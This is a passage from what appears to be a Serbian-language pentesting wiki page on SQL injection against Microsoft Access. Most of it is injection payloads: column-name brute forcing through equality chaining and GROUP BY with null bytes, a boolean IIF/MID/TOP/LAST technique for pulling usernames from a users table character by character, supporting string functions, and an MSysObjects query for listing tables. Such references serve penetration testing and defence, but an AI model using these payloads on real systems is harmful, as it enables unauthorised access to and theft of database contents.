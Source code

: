 Možete **brute-force trenutna imena kolona** pomoću trika sa lancem jednakosti sa:

```sql
'=column_name='
```

Ili sa **group by** klauzulom:

```sql
-1' GROUP BY column_name%00
```

Ili možete izvršiti brute-force napad na nazive kolona **druge tabele** pomoću:

```sql
'=(SELECT TOP 1 column_name FROM valid_table_name)='

-1' AND (SELECT TOP 1 column_name FROM valid_table_name)%00
```

### Dumpovanje podataka

Već smo razgovarali o [**tehnici spajanja jednakosti**](ms-access-sql-injection.md#chaining-equals-+-substring) **za dumpovanje podataka iz trenutnih i drugih tabela**. Ali postoje i druge metode:

```sql
IIF((select mid(last(username),1,1) from (select top 10 username from users))='a',0,'ko')
```

Ukratko, upit koristi "if-then" izjavu kako bi pokrenuo "200 OK" u slučaju uspeha ili "500 Internal Error" u suprotnom. Iskorišćavanjem operatora TOP 10, moguće je izabrati prvih deset rezultata. Naknadna upotreba LAST omogućava razmatranje samo 10. tuple. Na takvoj vrednosti, korišćenjem operatora MID, moguće je izvršiti jednostavno poređenje karaktera. Pravilnom promenom indeksa MID i TOP, možemo izvući sadržaj polja "korisničko ime" za sve redove.

### Vremenski bazirano

Proverite [https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676\(v=technet.10\)?redirectedfrom=MSDN)

### Ostale interesantne funkcije

* `Mid('admin',1,1)` dobija podstring sa pozicije 1 dužine 1 (početna pozicija je 1)
* `LEN('1234')` dobija dužinu stringa
* `ASC('A')` dobija ASCII vrednost karaktera
* `CHR(65)` dobija string iz ASCII vrednosti
* `IIF(1=1,'a','b')` ako onda
* `COUNT(*)` Broji broj stavki

## Enumeracija tabela

Odavde [**ovde**](https://dataedo.com/kb/query/access/list-of-tables-in-the-database) možete videti upit za dobijanje imena tabela:

```sql
select MSysObjects.name
from MSysObjects
where
MSysObjects.type In (1,4,6)
and MSysObjects.name not like '~*'
and MSysObjects.name not like 'MSys*'
order by MSysObjects.name
```

